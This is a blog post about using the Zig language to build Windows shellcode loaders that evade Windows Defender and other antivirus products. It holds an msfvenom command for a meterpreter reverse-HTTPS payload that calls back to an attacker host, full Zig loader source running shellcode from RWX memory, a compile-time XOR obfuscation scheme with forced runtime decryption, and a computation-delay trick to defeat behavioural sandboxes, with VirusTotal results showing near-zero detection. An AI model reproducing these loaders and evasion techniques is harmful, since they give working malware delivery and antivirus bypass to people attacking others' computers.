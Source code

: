 ```yaml
---
layout: post
title: "Bypassing Windows Defender with Zig"
author: "Michal"
---
```



Zig is a low-level language that aims to become a C-replacement. As I usually did all my offensive security payloads in C, I was pretty interested to try the features of a newer programming language and whether they can replace C as my go-to. In my blogs I will try to showcase features of Zig on few examples of offensive code.

With that said, let's get down to the "Hello world!" of offensive security - a simple shellcode loader. I'm gonna use staged meterpreter, generated with `msfvenom -p windows/x64/meterpreter/reverse_https -o src/meterpreter.bin LHOST=192.168.56.1 LPORT=443`. I chose meterpreter because it's been around for long so all decent AV products should detect its static signatures(how sad I was to found out this is not true), which makes it perfect for our examples. For those new to this, meterpreter is a malware that can remotely control a computer. 

 The loader consists of three phases:
1. Allocate writable and executable memory with `VirtualAlloc`.
2. Copy the shellcode into this memory. 
3. Cast the memory as a function pointer and call it.

Let's get directly to the Zig code:
```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;
const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

pub fn main() !void {
    // We include the compile as a string at compile time
    const shellcode = @embedFile("meterpreter.bin");
    // Allocate RWX memory for the shellcode
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    // We copy the shellcode to the memory.
    @memcpy(allocated_memory_ptr, shellcode);
    // Cast the RWX memory to a function pointer and then call it.
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

The first line of main function uses the `embedFile` builtin. This Zig builtin includes a whole binary file into our code as a string. 
This is a huge difference from C, where you would need to encode meterpreter as a C string:
![meterpreter included as a C file]({{site.url}}/assets/zig01/meterpreter_c.png)

On the next line, we allocate the memory. For WinAPI bindings I use the project [marlersoft/zigwin32](https://github.com/marlersoft/zigwin32) , and it's very simple to call a C function. We need to cast the type to `[*]u8`, which means
a pointer to multiple characters. Zig distinguishes between single element pointers and array pointers, which makes it simple to state your intent.

After that, we copy the shellcode and call a function pointer to it. This is enough for working shellcode loader and we can run meterpreter on a machine with Defender turned off.  However, to my big surprise, the loader still gets undetected by many AV products:
![basic shellcode loader virus total]({{site.url}}/assets/zig01/basic_vt.png)

 Welcome to year 2024 when only 24 AVs are capable of finding embedded meterpreter. I would be really happy to tell you that it's because of some dark optimizations that Zig performed, but to my disappointment the code is straightforward and the whole shellcode is embedded in `.rdata`.

![basic shellcode disassembly]({{site.url}}/assets/zig01/basic_disassembly.png).

### Compile time encryption
The first big problem of our shellcode is that it's a sitting duck for signature detections in the `.rdata` section. To achieve better results and bypass static signatures, we need to decrypt it during runtime. 
Zig offers us the `comptime` keyword, which enables us to run Zig code at compile time. This is similar to C macros or C++ template metaprogramming, but it is easier to read and write. The cool thing about `comptime` is that Zig *must* perform any such operations during compilation time. We can use `comptime` to implement xor encryption of the shellcode.

```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;

const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

//encrypt is a function that takes a compile time known string, and returns it encrypted
fn encrypt(comptime string: []const u8, k: u8) [string.len]u8 {
    // Zig has a default compilation timeout
    // We override it  to a big number so that the whole encryption can happen
    @setEvalBranchQuota(100000000);
    var encrypted_string: [string.len]u8 = undefined;
    // This loops over all characters of string - chr, and idx is the index
    for (string, 0..) |chr, idx| {
        // We do not want to xor with a single value, so we use also the index
        const key: u8 = @truncate((idx * 83) % 256);
        encrypted_string[idx] = chr ^ key ^ k;
    }
    return encrypted_string;
}

// This is very similar to the encrypt function
fn decrypt(mem: []u8, s: []const u8, k: u8) void {
    for (s, 0..) |chr, idx| {
        const key: u8 = @truncate((idx * 83) % 256);
        // The one difference is that this function also calls shouldRun, which should return 0
        // shouldRun is a function that ensures this is evaluated during runtime
        // this is how we prevent Zig from optimizing decryption out
        mem[idx] = chr ^ key ^ k + shouldRun();
    }
}
fn comptimeObfuscation(comptime s: []const u8) [s.len]u8 {
    const key = 0x42;
    // We call encrypt at comptime
    const enc_str = comptime encrypt(s, key);
    var ret_array: [s.len]u8 = [_]u8{0} ** s.len;
    decrypt(&ret_array, &enc_str, key);

    return ret_array;
}

fn shouldRun() u8 {
    // The value of BeingDebugged is determined during runtime
    const peb = std.os.windows.peb();
    return peb.BeingDebugged;
}

pub fn main() !void {
    // We include the shellcode as a string at compile time, and encrypt it
    const shellcode = comptimeObfuscation(@embedFile("meterpreter.bin"));
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    @memcpy(allocated_memory_ptr, shellcode[0..]);
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

Our goal is to invoke the encrypt function during compile time -- Zig's `comptime` keyword enforces this. However, from my experiments, Zig was very eager to also run the decryption at compile time, and thus leaving the shellcode decrypted in the binary. From compiler's point of view this is an obvious optimalization, however we do not want this. The most consistent way to ensure runtime decryption is to make the `decrypt` function depend on any runtime value, 
and I chose the `BeingDebugged` which should be 0 unless program is debugged. The Ghidra decompiler proves that the compiled executable really decrypts the shellcode at runtime:
![disassembly of encrypted shellcode loader]({{site.url}}/assets/zig01/encrypted_disassembly.png)

The results from VirusTotal are not very encouraging. The encryption of shellcode only managed to bypass 5 products, which means we still have a long way to go.
![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/encrypted_vt.png)

## Behavior 
Our encryption is robust and I'm pretty sure that no signatures can be found for our payloads. We can determine which products perform behavior checks by timing them out. To do this, I found a [md5 brute force snippet](https://www.reddit.com/r/adventofcode/comments/szphy0/2015_day_04zig_some_tips_to_solve_the_problem/) online. We will use this snippet to delay decrypting and executing the payload. I will not explain the code, as it's just a simple md5 hash cracking. The point is to use *any* slow computation without relying on functions that can be hooked by AV, such as common sleep functions.

Adding the delay, we can get to only 1 detection, and by AV that I've never actually seen used:
![encrypted shellcode loader with sleep virus total]({{site.url}}/assets/zig01/sleep_vt.png)

Of course, this does not mean that the payload would get executed in a real-world system. The behavior of meterpreter is pretty well known, and Windows defender consistently blocks it once it gets decrypted. Actually, in this case the Windows Defender was very good at detecting the staging mechanism - we could get initial beacon, but the meterpreter was killed immediatly after. I then decided to also play with stageless.

## Stageless meterpreter
While the shellcode of staged meterpreter is very small, it is at the cost of downloading the actual shellcode from the metasploit server. We can also use stageless variant, which comes with the whole meterpreter in the shellcode, thus making it much bigger. This also means more signatures(no encryption and no sleep):
![ stageless loader virus total]({{site.url}}/assets/zig01/stageless_vt.png)

After going through the hoops of encryption and sleep, we get to 8 detections:
![encrypted stageless loader with sleep virus total]({{site.url}}/assets/zig01/stageless_enc_sleep.png)

The reason for these detections is that the `.rdata` section is filled with 200KB of random nonsense and it's easy for any ML algorithm to pick up the entropy anomaly.
![encrypted shellcode loader entropy]({{site.url}}/assets/zig01/encrypted_entropy.png)

The interesting thing is that stageless meterpreter actually bypasses Windows Defender and we get the connection. This means that the detection really was in the staging protocol.

What I wanted to do next is to reduce this entropy - my idea was to simply prepend each encrypted byte with bunch of zeroes. However, this was not possible as Zig's `comptime` eats a *lot* of RAM. Even compiling the previous encryption took around 5 minutes for the stageless meterpreter, indicating that Zig's `comptime` is not yet suitable for very large payloads. This is a known issue with Zig compiler and something that is being worked on.

This basically encompasses my overall feelings of Zig - I like the language, and I think it has big potential for offensive tooling, but it's obvious that the language is still largely in development. Features of this language get added/removed pretty often, and new versions often bring breaking changes. Many codes found on the internet do not work anymore and the code in this blog might not work with the next release of Zig. I'm very hopeful for the future though, especially once the `comptime` memory issues get resolved. I like the language and I plan to write more blogs about it. My next blog will be about using `comptime` for hashing and a custom GetModuleHandle function.










